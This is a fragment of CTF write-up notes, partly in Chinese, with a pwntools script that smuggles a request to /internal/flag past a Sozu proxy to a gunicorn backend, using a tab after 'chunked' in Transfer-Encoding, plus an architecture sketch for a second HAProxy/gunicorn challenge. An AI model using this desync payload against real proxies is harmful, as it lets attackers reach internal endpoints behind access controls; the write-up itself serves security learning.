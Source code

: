 ```python
from pwn import *
import ssl

hostname = 'sozu.chall.pwnoh.io'
ctx = ssl.create_default_context()
#ctx.check_hostname = False
#ctx.verify_mode = ssl.CERT_NONE
sock = socket.create_connection((hostname, 13380))
ssock = ctx.wrap_socket(sock, server_hostname=hostname)

r = remote(hostname, "13380", sock=ssock)

# The solution here is the tab after 'chunked'.
# sozu will use content-length, gunicorn will use
# chunked.

# You do actually need another request after getting
# the flag, otherwise you won't get the response back

#r = remote("localhost", "3000")

r.send("""POST /public/testing HTTP/1.1\r
Host: sozu.chall.pwnoh.io\r
Connection: keep-alive\r
transfer-encoding: chunked\t\r
content-length: 60\r
\r
2\r
hi\r
0\r
\r
GET /internal/flag HTTP/1.1\r
Host: localhost\r
\r
GET /public/test HTTP/1.1\r
Host: sozu.chall.pwnoh.io\r
\r
""")
r.interactive()
```

#### 不知名题

https://hg8.sh/posts/misc-ctf/request-smuggling/

正常的响应包提示Server: gunicorn/19.9.0，当访问/results时 有一个HAProxy Authentication，所以web部分应该是这样的架构

```
        User
          |
          |
    +-----+-----+
    |           |
    |  HAProxy  |
    |           |
    +-----+-----+
          |
          |
+---------+----------+     +-------------+
|                    |     |             |
|      Gunicorn      |     |   Web App   |
|  WSGI HTTP Server  +-----+  Python (?) |
|                    |     |             |
+--------------------+     +-------------+
```